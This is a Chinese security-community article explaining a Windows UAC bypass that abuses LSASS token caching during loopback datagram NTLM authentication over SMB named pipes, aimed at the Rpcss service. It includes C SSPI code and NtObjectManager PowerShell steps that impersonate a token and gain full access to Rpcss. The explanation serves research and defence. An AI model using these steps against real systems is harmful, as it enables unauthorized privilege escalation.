







# 一个绕过 UAC 的技术思路 - 先知社区

一个绕过 UAC 的技术思路

- - -

# 漏洞形成原理

在网络身份验证中生成的令牌是不受限制的，通过某种方式我们能够在验证时强制使用数据报式身份验证，从而在本地实现模拟网络身份验证。这将首先在新的登录会话中生成一个不受限制的令牌，接着再生成一个受限制的令牌，并将两者关联。由于 Lsass 在某些情况下保存了生成的第一个令牌，最终可以通过 SSPI 绕过 UAC。

## Lsass 令牌保存

Windows 的一个显著特性是"一次输入，随处验证"，这是由本地安全授权服务（LSA）来实现的。简而言之，当 LSASS（本地安全授权服务子系统）为新的登录会话创建令牌时，它会存储该令牌，以备将来的检索。在进行网络验证时，会话令牌将被重新使用。

AcquireCredentialsHandle（通用）函数在此过程中起着关键作用，用于获取安全主体预先存在的凭据的句柄，以供之后提到的 InitializeSecurityContext（通用）和 AcceptSecurityContext（通用）函数使用。

在这些函数中，pvLogonID 参数可以被用于指定执行网络验证的用户。这一流程确保了用户在进行不同的身份验证时，无需重复输入凭据，通过在 LSA 中存储并重复使用令牌，实现了便捷的"一次输入，随处验证"的特性。

TCB（Trusted Computing Base）是一个计算机系统中被认为是可信任的部分，包括硬件、操作系统、安全服务等。TCB 是系统中负责安全和可信任操作的核心组件，它确保系统的安全性和完整性。在安全领域，TCB 是一个关键概念，因为系统的整体安全性取决于其可信任的基础。

在 Windows 操作系统中，"System" 和 "trustedinstaller" 是两个相关但不同的概念：

1.  **System：** 这是操作系统中一个特殊的系统账户，拥有很高的权限。在 Windows NT 内核中，System 账户是一个具有 TCB 特权的账户，可以执行系统级任务，如内核模式服务和驱动程序。
2.  **trustedinstaller：** 这是一个 Windows 服务（TrustedInstaller.exe），它是 Windows 模块安装服务的主要组件。这个服务负责安装、卸载和修改 Windows 更新、服务包和驱动程序等系统组件。TrustedInstaller 通常以 System 账户的身份运行，因此也具有很高的权限。

虽然 System 和 trustedinstaller 都属于 TCB 的一部分，但它们在功能和使用上有所区别。System 是操作系统的核心组件，而 trustedinstaller 是一个服务，主要用于安装和维护系统组件。在进行本地环回身份验证时，TCB 特权允许指定用于身份验证的令牌的登录会话 ID，确保在本地机器上使用正确的会话令牌。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151012-45d0f02e-c263-1.png)

由此可见，SMB 是一个非常适合我们需求的协议。通过利用命名管道，我们能够在网络身份验证的过程中获取令牌。此外，由于 SMB 在内核模式下运行，具备了 TCB 特权，使得网络身份验证时能够执行高权限操作。

通过检查 `ImpersonateNamedPipeClient` 函数的原型，我们可以得知，命名管道服务器线程要成功调用该函数，需要满足其中的四个条件之一。这包括调用者需要具备 `SeImpersonatePrivilege` 权限。通常，作为服务的进程会满足这个条件，而且网络服务账户本身也被赋予了 `SeImpersonatePrivilege` 权限。这确保了服务器线程在执行 `ImpersonateNamedPipeClient` 函数时有必要的权限，从而顺利进行模拟客户端的操作。

在本地环回身份验证中，LSASS（本地安全授权服务子系统）将保存会话的令牌而不是调用者的令牌。在先前的讨论中，我们指出会话令牌是在用户登录时生成的，而特定进程使用的令牌是动态生成的。具体而言，LSASS 保存的是生成的第一个令牌，即与登录会话关联的令牌。这一设计确保了在本地环回身份验证期间，LSASS 能够使用正确的令牌进行身份验证，并维护与登录会话相关联的上下文信息。

因此以 Rpcss 服务为目标，因为它既作为网络服务运行，又具有许多高权限的令牌句柄。而且，最重要的是，Rpcss 是第一个以 Network Service 运行的进程。这使得攻击者可以利用 Rpcss 进程的权限进行一系列操作，从而实施横向移动或其他攻击

## windows 令牌

通过编写代码，我们可以模拟数据报身份验证过程，并观察生成的相关令牌。在这个过程中，我们将关注 NTLMSSP\_NEGOTIATE\_DATAGRAM 的细节，特别是在调用 InitializeSecurityContext（General）函数时设置 ISC\_REQ\_DATAGRAM 标志。以下是进行数据报身份验证的代码示例。

```plain
#define SECURITY_WIN32

#include <Windows.h>
#include <stdio.h>
#include <Security.h>

#define SEC_SUCCESS (Status) ((Status) >= 0)
#define MAX_MESSAGE_SIZE 12000

#pragma comment (lib, "Secur32.lib"）

int main ()
{
  CredHandle hCredClient, hCredServer;
  TimeStamp lifetimeClient, lifetimeServer;
  SecBufferDesc negotiateDesc, challengeDesc, authenticateDesc;
  SecBuffer negotiateBuffer, challengeBuffer, authenticateBuffer;
  CtxtHandle clientContextHandle, serverContextHandle;
  ULONG clientContextAttributes, serverContextAttributes;
  SECURITY_STATUS secStatus;
  HANDLE hTokenNetwork = INVALID_HANDLE_VALUE;

  secStatus = AcquireCredentialsHandle (NULL, (LPWSTR) NTLMSP_NAME, SECPKG_CRED_OUTBOUND, NULL, NULL, NULL, NULL, &hCredClient, &lifetimeClient);
  if （!SEC_SUCCESS（secStatus）） {
    printf（"AcquireCredentialsHandle Client failed with secstatus code 0x%x \n", secStatus）;
    exit（-1）;
  }

  secStatus = AcquireCredentialsHandle (NULL, (LPWSTR) NTLMSP_NAME, SECPKG_CRED_INBOUND, NULL, NULL, NULL, NULL, &hCredServer, &lifetimeServer);
  if （!SEC_SUCCESS（secStatus）） {
    printf（"AcquireCredentialsHandle Server failed with secstatus code 0x%x \n", secStatus）;
    exit（-1）;
  }

  negotiateDesc.ulVersion = 0;
  negotiateDesc.cBuffers = 1;
  negotiateDesc.pBuffers = &negotiateBuffer;
  negotiateBuffer.cbBuffer = MAX_MESSAGE_SIZE;
  negotiateBuffer.BufferType = SECBUFFER_TOKEN;
  negotiateBuffer.pvBuffer = HeapAlloc (GetProcessHeap (), HEAP_ZERO_MEMORY, MAX_MESSAGE_SIZE);
  secStatus = InitializeSecurityContext (&hCredClient, NULL, NULL, ISC_REQ_DATAGRAM, 0, SECURITY_NATIVE_DREP, NULL, 0, &clientContextHandle, &negotiateDesc, &clientContextAttributes, &lifetimeClient);
  if （!SEC_SUCCESS（secStatus）） {
    printf（"InitializeSecurityContext Type 1 failed with secstatus code 0x%x \n", secStatus）;
    exit（-1）;
  }

  challengeDesc.ulVersion = 0;
  challengeDesc.cBuffers = 1;
  challengeDesc.pBuffers = &challengeBuffer;
  challengeBuffer.cbBuffer = MAX_MESSAGE_SIZE;
  challengeBuffer.BufferType = SECBUFFER_TOKEN;
  challengeBuffer.pvBuffer = HeapAlloc (GetProcessHeap (), HEAP_ZERO_MEMORY, MAX_MESSAGE_SIZE);
  secStatus = AcceptSecurityContext (&hCredServer, NULL, &negotiateDesc, ASC_REQ_DATAGRAM, SECURITY_NATIVE_DREP, &serverContextHandle, &challengeDesc, &serverContextAttributes, &lifetimeServer);
  if （!SEC_SUCCESS（secStatus）） {
    printf（"AcceptSecurityContext Type 2 failed with secstatus code 0x%x \n", secStatus）;
    exit（-1）;
  }

  authenticateDesc.ulVersion = 0;
  authenticateDesc.cBuffers = 1;
  authenticateDesc.pBuffers = &authenticateBuffer;
  authenticateBuffer.cbBuffer = MAX_MESSAGE_SIZE;
  authenticateBuffer.BufferType = SECBUFFER_TOKEN;
  authenticateBuffer.pvBuffer = HeapAlloc (GetProcessHeap (), HEAP_ZERO_MEMORY, MAX_MESSAGE_SIZE);
  secStatus = InitializeSecurityContext (NULL, &clientContextHandle, NULL, 0, 0, SECURITY_NATIVE_DREP, &challengeDesc, 0, &clientContextHandle, &authenticateDesc, &clientContextAttributes, &lifetimeClient);
  if （!SEC_SUCCESS（secStatus）） {
    printf（"InitializeSecurityContext Type 3 failed with secstatus code 0x%x \n", secStatus）;
    exit（-1）;
  }

  secStatus = AcceptSecurityContext (NULL, &serverContextHandle, &authenticateDesc, 0, SECURITY_NATIVE_DREP, &serverContextHandle, NULL, &serverContextAttributes, &lifetimeServer);
  if （!SEC_SUCCESS（secStatus）） {
    printf（"AcceptSecurityContext failed with secstatus code 0x%x \n", secStatus）;
    exit（-1）;
  }
  QuerySecurityContextToken (&serverContextHandle, &hTokenNetwork);

  HeapFree (GetProcessHeap (), 0, negotiateBuffer.pvBuffer);
  HeapFree (GetProcessHeap (), 0, challengeBuffer.pvBuffer);
  HeapFree (GetProcessHeap (), 0, authenticateBuffer.pvBuffer);
  FreeCredentialsHandle（&hCredClient）;
  FreeCredentialsHandle（&hCredServer）;
  DeleteSecurityContext（&clientContextHandle）;
  DeleteSecurityContext（&serverContextHandle）;
  Sleep（10000）;
  return 0;
}
```

# 漏洞利用

### 原理解释

首先，我们需要一个受限令牌。

此处参照 ImpersonateLoggedOnUser 文档 (自行翻译)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151032-51908a6e-c263-1.png)

此处可以发现我们只需要满足其中一个条件即可生成受限令牌

该漏洞满足第四点`The authenticated identity is same as the caller.`

说人话就是调用者身份与身份验证身份相同

然后执行`SeTokenCanImpersonate`函数检查

尽管在 UAC 限制下，令牌无法直接获得 Allowed，因为其 Token Level < Impersonate 以及 Process has Impersonate Privilege 的条件未满足，但令牌确实符合后续的所有条件。

既然可以模拟受限令牌，只需使用该令牌进行认证，然后通过认证结果确定使用的是预期的高权限令牌还是受限令牌。如果最终获得了高权限令牌，那么可以得出结论：Lsass 确实保存了登录会话生成的第一个令牌，并且数据报式身份验证确实先生成了高权限令牌，然后再生成了受限令牌。

通过使用数据报式身份验证模拟受限令牌，并通过环回接口写入命名管道，然后使用模拟的受限令牌进行验证的结果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151044-5903ae3e-c263-1.png)

### 漏洞利用

RPC 被用于在分布式系统中进行进程间通信。Named Pipes（命名管道）是一种允许拥有相同网络路径的进程进行本地和远程通信的通信机制。

通过 ncacn\_np，RPC 可以利用 Named Pipes 进行通信。

在 Windows 操作系统中，ncacn\_np 常用于本地进程之间的通信，特别是在同一台计算机上的进程间通信。

通过使用 Named Pipes，进程可以通过指定的路径（如 \\servername\\pipe\\pipename）进行通信

在先前的讨论中，我们提到了一个前提条件，即 AcquireCredentialsHandle 的 pvLogonID。

而 RegConnectRegistryW 无法使用的原因是因为 RPCRT4.dll 使用了自己的实现进行身份验证，它将 pvLogonID 设置为 0。

然而，我们需要将其设置为与用户相关联的登录会话 ID，否则将无法触发 Lsass 的令牌问题。

配置`Network Service`的 PowerShell 环境。

```plain
Save-Module -Name NtObjectManager -Path C:\
Import-Module C:\NtObjectManager
```

开启一个具有 System 权限的 PowerShell

```plain
$p = Start-Win32ChildProcess PowerShell
```

随后，我们可以开始导入之前下载的包，并获取当前的会话令牌。接着，创建一个新的 Network Service 令牌并添加 SID 到组。最终，利用新的令牌启动一个 Network Service 的 PowerShell。

```plain
Import-Module C:\NtObjectManager
$sess = Get-NtToken -Session
$token = Get-NtToken -Service NetworkService -AdditionalGroups $sess.LogonSid.Sid
New-Win32Process PowerShell -Token $token -CreationFlags NewConsole
```

通过任务管理器查看 Rpcss 服务 Pid

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151056-601f63f2-c263-1.png)

创建一个命名管道，启动监听，通再利用 localhost 打开管道句柄

```plain
$pipe = New-NtNamedPipeFile \\.\pipe\AAA2 -Win32Path
$job = Start-Job {$pipe.Listen（）}
$file = Get-NtFile \\127.0.0.1\pipe\AAA2 -Win32Path
Wait-Job $Job | Out-Null
```

在核心模式下运行

```plain
$p = Use-NtObject（$pipe.Impersonate（））{
    Get-NtProcess -ProcessId 912
}
$p.GrantedAccess
```

在这个情境下，通过 `Impersonate()` 进行了身份模拟，然后在该身份下执行了 `$p.GrantedAccess` 来获取该进程被赋予的访问权限。结果显示为 `AllAccess`，表明模拟的身份被授予了进程的全部访问权限。

查看令牌的组列表

```plain
$token = Use-NtObject（$pipe.Impersonate（））{
    Get-NtToken -Impersonation
}
$token.Groups | ? Name -Match Rpcss
```

```plain
Name                       Attributes       
NT SERVICE\RpcSs           EnabledByDefault,0wner
```

### SMB 文件共享服务进行命令执行操作

尝试通过 RegConnectRegistryW 调用向远程注册表进行身份验证，它将无法打开特权注册表项的句柄。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151110-68b1d572-c263-1.png)

事实证明，RPC 运行时库（RPCRT4.dll）使用他自己的实现进行身份验证  
AcquireCredentialsHandleW 的 pvLogonId 参数设置为 0，这不允许在 LSASS 中触发错误，并且会使用适当的有限令牌进行身份验证。

使用 CreateFileW 函数对环回接口进行身份验证

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151117-6ca9af56-c263-1.png)

我们在这里看到的第一个区别是，身份验证是由 SMB 重定向程序驱动程序 mrxsmb20.sys 在内核中实现的。  
更重要的是，AcquireCredentialsHandleW 的 pvLogonId 参数设置为与用户关联的登录会话，这会欺骗 lsass 使用该登录会话中的提升令牌。  
根据文档，为了指定 pvLogonId，您需要具有 SeTcbPrivilege，在这种情况下这不是问题，因为代码是以内核权限运行的。

如果我们想利用该漏洞，我们无法使用 RPC 运行时库对与 RPC 服务关联的命名管道进行身份验证。

我们可以使用自己的自定义 RPC 客户端实现，该实现利用 CreateFileW 调用通过 SMB 对 RPC 服务进行身份验证。  

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203151126-7236718e-c263-1.png)
